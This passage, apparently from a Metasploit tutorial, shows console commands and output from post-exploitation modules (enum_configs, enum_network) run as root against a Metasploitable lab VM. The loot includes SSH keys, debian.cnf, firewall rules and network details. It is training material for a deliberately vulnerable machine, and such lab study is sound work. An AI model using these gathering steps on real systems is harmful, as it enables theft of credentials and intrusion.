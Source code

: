 [*] sysctl.conf stored in /root/.msf5/loot/20160326195710_metasploitable_10.0.0.27_linux.enum.conf_404816.txt
[*] shells stored in /root/.msf5/loot/20160326195712_metasploitable_10.0.0.27_linux.enum.conf_818615.txt
[*] access.conf stored in /root/.msf5/loot/20160326195715_metasploitable_10.0.0.27_linux.enum.conf_874317.txt
[*] rpc stored in /root/.msf5/loot/20160326195717_metasploitable_10.0.0.27_linux.enum.conf_633057.txt
[*] debian.cnf stored in /root/.msf5/loot/20160326195718_metasploitable_10.0.0.27_linux.enum.conf_373393.txt
[*] logrotate.conf stored in /root/.msf5/loot/20160326195720_metasploitable_10.0.0.27_linux.enum.conf_273101.txt
[*] smb.conf stored in /root/.msf5/loot/20160326195721_metasploitable_10.0.0.27_linux.enum.conf_054028.txt
[*] ldap.conf stored in /root/.msf5/loot/20160326195722_metasploitable_10.0.0.27_linux.enum.conf_971571.txt
[*] sysctl.conf stored in /root/.msf5/loot/20160326195726_metasploitable_10.0.0.27_linux.enum.conf_542417.txt
[*] Post module execution completed
msf post(enum_configs) >


Enumerate Network

You can also enumerate any and all network connections and information with the enum_network module:

msf > use post/linux/gather/enum_network
msf post(enum_network) > set SESSION 1
SESSION => 1
msf post(enum_network) > run

[*] Running module against metasploitable
[*] Module running as root
[+] Info:
[+] 	Warning: Never expose this VM to an untrusted network!Contact: msfdev[at]metasploit.comLogin with msfadmin/msfadmin to get started
[+] 	Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux
[*] Collecting data...
[*] Network config stored in /root/.msf5/loot/20160326200000_metasploitable_10.0.0.27_linux.enum.netwo_406438.txt
[*] Route table stored in /root/.msf5/loot/20160326200000_metasploitable_10.0.0.27_linux.enum.netwo_914437.txt
[*] Firewall config stored in /root/.msf5/loot/20160326200000_metasploitable_10.0.0.27_linux.enum.netwo_669572.txt
[*] DNS config stored in /root/.msf5/loot/20160326200000_metasploitable_10.0.0.27_linux.enum.netwo_456351.txt
[*] SSHD config stored in /root/.msf5/loot/20160326200000_metasploitable_10.0.0.27_linux.enum.netwo_297799.txt
[*] Host file stored in /root/.msf5/loot/20160326200000_metasploitable_10.0.0.27_linux.enum.netwo_107690.txt
[*] SSH keys stored in /root/.msf5/loot/20160326200000_metasploitable_10.0.0.27_linux.enum.netwo_441524.txt
[*] Active connections stored in /root/.msf5/loot/20160326200000_metasploitable_10.0.0.27_linux.enum.netwo_626274.txt
[*] Wireless information stored in /root/.msf5/loot/20160326200000_metasploitable_10.0.0.27_linux.enum.netwo_099826.txt
[*] Listening ports stored in /root/.msf5/loot/20160326200000_metasploitable_10.0.0.27_linux.enum.netwo_863941.txt
[*] If-Up/If-Down stored in /root/.msf5/loot/20160326200000_metasploitable_10.0.0.27_linux.enum.netwo_728430.txt
[*] Post module execution completed
msf post(enum_network) >
